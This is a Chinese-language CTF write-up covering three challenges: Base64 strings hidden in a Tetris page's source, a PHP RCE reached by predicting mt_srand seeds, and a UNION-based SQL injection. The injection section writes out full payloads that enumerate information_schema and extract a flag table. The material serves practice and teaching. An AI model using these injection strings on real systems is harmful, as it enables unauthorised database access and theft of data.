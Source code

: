 ## 59.BeginnerTetris

![image-20241109205846982](D:\ctf wp\40.2.assets\image-20241109205846982.png)

打开是俄罗斯方块 看到和游戏无关 考虑是第一题直接看源代码 最后找到两段Base64码![image-20241109210004396](D:\ctf wp\40.2.assets\image-20241109210004396.png)![image-20241109210017979](D:\ctf wp\40.2.assets\image-20241109210017979.png)解码结束

## 60.ezphp

![image-20241109220903472](D:\ctf wp\40.2.assets\image-20241109220903472.png)

审计源代码![image-20241109220927791](D:\ctf wp\40.2.assets\image-20241109220927791.png)

就是a数组中有system 自己输入的cmd 和无效数据ctfer

最后一句就是需要构造RCE注入

了解mt_srand 播种随机数 那么就预测 写代码 本地提提前几十秒生成payload，bp发个包解决

![image-20241109223340687](D:\ctf wp\40.2.assets\image-20241109223340687.png)

或者加时间预判![image-20241109223403171](D:\ctf wp\40.2.assets\image-20241109223403171.png)

抓包![image-20241109223418131](D:\ctf wp\40.2.assets\image-20241109223418131.png)

最后按流程基础的 ls cat读取flag

## 61.ez随便注

用sqlmap可以直接秒

![image-20241109224155449](D:\ctf wp\40.2.assets\image-20241109224155449.png)

![image-20241109224242347](D:\ctf wp\40.2.assets\image-20241109224242347.png)

输入1'发现报错  '闭合![image-20241109224327556](D:\ctf wp\40.2.assets\image-20241109224327556.png)

输入1‘order by 3# 报错 说明有两个字段

![image-20241109224756438](D:\ctf wp\40.2.assets\image-20241109224756438.png)

1' union select  1,database()# 查看数据库![image-20241110143439864](D:\ctf wp\40.2.assets\image-20241110143439864.png)

看表1' union select  1,group_concat(table_name) from information_schema.tables where table_schema=0x737570657273716c69 #![image-20241110143530288](D:\ctf wp\40.2.assets\image-20241110143530288.png)

查看列 no_flag_here    1' union select  1,group_concat(column_name) from information_schema.columns where table_name=0x6e6f5f666c61675f68657265#![image-20241110143810340](D:\ctf wp\40.2.assets\image-20241110143810340.png)

查字段  1' union select  1,flag from no_flag_here# ![image-20241110143855197](D:\ctf wp\40.2.assets\image-20241110143855197.png)
